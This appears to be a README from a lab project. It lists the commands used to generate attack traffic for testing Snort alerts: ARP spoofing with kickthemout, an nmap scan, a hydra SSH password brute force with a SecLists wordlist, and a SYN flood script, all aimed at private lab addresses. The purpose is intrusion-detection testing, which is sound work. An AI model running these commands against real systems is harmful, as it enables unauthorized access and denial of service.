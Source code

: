 # attacks
Directory containing the code used for the test attacks used for triggering the snort alerts. 

The structure of the project is the following one.

 - **kicktheamount**: Tool to perform and ARP spoofing on the victim.

```
 sudo python3 kickthemout.py --target 192.168.1.10
``` 

- **port scanning**: Simple nmap scan on the ip. More options are possible to be added but at this point it's enough.

```
nmap 172.16.46.2

nmap <ip>
```

- **ssh brute force**: The tool used is hydra. The test command used is the following one.
 
```
./hydra -s 22 -v -V -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s 22 -v -V -w 4 -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s <port> -v -V -w <waittime> -l <username> -P <path to password file> -t <number of threads> <ip> <protocol>
```

 - **syn_flood**: Tool to be used for the Syn Flood Attack.
 
```
sudo python syn_flood.py -d 192.168.1.10 -p 22 -t 1

sudo python syn_flood.py -d <ip> -p <port> -t <number of threads>
```
  
 
 
